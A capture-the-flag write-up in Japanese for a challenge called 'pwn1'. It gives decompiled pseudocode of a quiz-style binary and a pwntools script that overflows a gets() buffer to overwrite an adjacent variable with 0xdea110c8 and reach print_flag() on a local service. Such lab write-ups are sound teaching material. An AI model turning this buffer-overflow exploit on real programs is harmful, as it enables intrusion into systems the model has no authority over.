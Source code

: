 # pwn1
## Description
実行ファイルが渡される。

## Solution
まずはgdbで実行しつつ内部構造を探った。  
そこで以下のことがわかった。
一回目の入力は"Sir Lancelot of Camelot\n"  
二回目の入力は"To seek the Holy Grail.\n"  
三回目の入力はgets()による入力で、入力した変数ではなく、  それより上位のアドレスの変数で比較していたので、  バッファーオーバーフローで目的の変数の値を0xdea110c8にすることで目的のprint_flag()を実行することが出来た。
### 疑似コード
```
main(char **argv){
    char var_3bh[0x2b];  // ebp-0x3b
    int32 var_10h;  // ebp-0x10
    int32 var_ch;   // ebp-0xc
    int32 var_8h;   // ebp-0x8
    
    setvbuf(eax,2,0,0)
    var_ch = 2
    var_10h = 0
    puts("Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.")
    puts("What... is your name?")
    fgets(stdin,var_3bh,0x2b)
    if (strcmp(var_3bh,"Sir Lancelot of Camelot\n")==0){
        print("What... is your quest")
        fgets(stdin,var_3bh,0x2b)
        if(strcmp(var_3bh,"To seek the Holy Grail.\n")  ==0){
            print("What... is my secret?")
            gets(var_3bh)
            if(var_10h == 0xdea110c8){
                print_flag()
            }else{
                print("I don't know that! Auuuuuuuugh!")
            }
        }else{
            print("I don't know that! Auuuuuuuugh!")
            exit(0)
        }
    }else{
        print("I don't know that! Auuuuuuuugh!")
        exit(0)
    }
    return(0)
}
```

### Solve_Code
```python:mysolve.py
from pwn import *
io = remote("localhost",4088)
io.recvuntil("name?")
io.sendline("Sir Lancelot of Camelot")
io.recvuntil("quest")
io.sendline("To seek the Holy Grail.")
io.recvuntil("secret?")
payload = b'A'*0x2b
payload += p32(0xdea110c8) 
io.sendline(payload)
io.interactive()
```